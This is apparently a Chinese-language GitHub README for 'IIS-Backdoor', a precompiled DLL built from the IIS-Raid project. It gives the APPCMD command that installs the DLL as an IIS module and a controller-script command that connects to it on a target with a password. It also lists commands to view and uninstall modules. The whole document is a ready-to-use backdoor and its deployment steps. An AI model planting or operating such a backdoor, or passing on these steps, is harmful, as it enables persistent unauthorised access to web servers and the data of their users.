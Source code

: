 # IIS-Backdoor


已经编译好了的dll

####  

源码：https://github.com/0x09AL/IIS-Raid

  



####  

直接下载 IIS-backdoor.dll  

Windows server2012 IIS 8 测试

  


## 使用

### 添加模块

PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:Module  /image:"c:\IIS-Backdoor.dll" /add:true

### 运行python脚本连接IIS-backdoor.dll

python3 iis_controller.py --url target --password SIMPLEPASS

## 另外一些模块有关的命令

### 看一下已经安装的模块

PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE list modules

### 删除已经安装的模块

PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE uninstall modules Module
